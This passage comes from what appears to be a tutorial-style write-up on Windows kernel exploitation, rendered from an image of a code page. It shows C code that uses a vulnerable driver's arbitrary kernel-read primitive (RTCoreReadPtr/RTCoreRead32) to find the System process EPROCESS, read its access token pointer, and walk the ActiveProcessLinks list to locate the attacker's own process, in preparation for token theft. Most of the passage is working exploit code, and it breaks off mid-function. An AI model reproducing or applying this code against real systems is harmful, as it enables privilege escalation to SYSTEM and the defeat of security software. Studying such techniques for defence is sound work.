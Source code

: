 ```c
lpKernelBase = GetKernelBaseAddress();
if (!lpKernelBase) {
	return FALSE;
}

dwPsInitialSystemProcessOffset = GetPsInitialSystemProcessOffset();
if (!dwPsInitialSystemProcessOffset)
	return FALSE;

lpPsInitialSystemProcess = GetKernelAddress(lpKernelBase, dwPsInitialSystemProcessOffset);

if (!RTCoreReadPtr(lpPsInitialSystemProcess, &lpInitialSystemProcess)) {
	PRINT_ERROR(L"[-] Couldn't read pointer for lpPsInitialSystemProcess\n");
	return FALSE;
}
```

Now that we have the address to `EPROCESS`, we can use the driver exploit again to read the pointers to the `ActiveProcessLinks` linked list and the Token from system process `EPROCESS` structure. Before reading, the structure field offsets (which depend on the Windows build) should be added to the `EPROCESS` address. I get the offsets from my lookup table.  

```c
if (!RTCoreReadPtr(lpInitialSystemProcess + ACTIVEPROCESSLINKS_OFFSET[WinVersion], &lpActiveProcessLinks)) {
	PRINT_ERROR(L"[-] Couldn't read pointer for lpActiveProcessLinks\n");
	return FALSE;
}
```

```c
ULONG_PTR GetTokenPointer(ULONG_PTR eprocess, WINDOWS_VERSION WinVersion) {
	ULONG_PTR Token;

	if (!RTCoreReadPtr(eprocess + TOKEN_OFFSET[WinVersion], &Token)) {
		PRINT_ERROR(L"[-] Couldn't read pointer for Token\n");
		return 0;
	}
	return Token;
}
```
To find the `EPROCESS` structure for our own process, we can traverse the `ActiveProcessLinks` doubly linked list, starting from the System process `EPROCESS`. We compare the `UniqueProcessId` of each structure with the process ID of our process. Once a match is found, we have successfully located our own `EPROCESS` structure.  

We can use two helper functions to achieve this. The first function returns the PID for a given EPROCESS pointer. This is done by just reading the value at address `(SystemEPROCESS + UniqueProcessIdOffset)`:  

```c
DWORD GetUniqueProcessId(ULONG_PTR eprocess, WINDOWS_VERSION WinVersion) {
	ULONG_PTR pUniqueProcessId = 0;
	DWORD UniqueProcessId = 0;

	pUniqueProcessId = eprocess + UNIQUEPROCESSID_OFFSET[WinVersion];

	if (lpInitialSystemProcess == 0) {
		PRINT_ERROR(L"[-] lpInitialSystemProcess not initialized!\n");
		return -1;
	}

	if (!RTCoreRead32(pUniqueProcessId, &UniqueProcessId)) {
		PRINT_ERROR(L"[-] Couldn't read value from pUniqueProcessId\n");
		return FALSE;
	}
```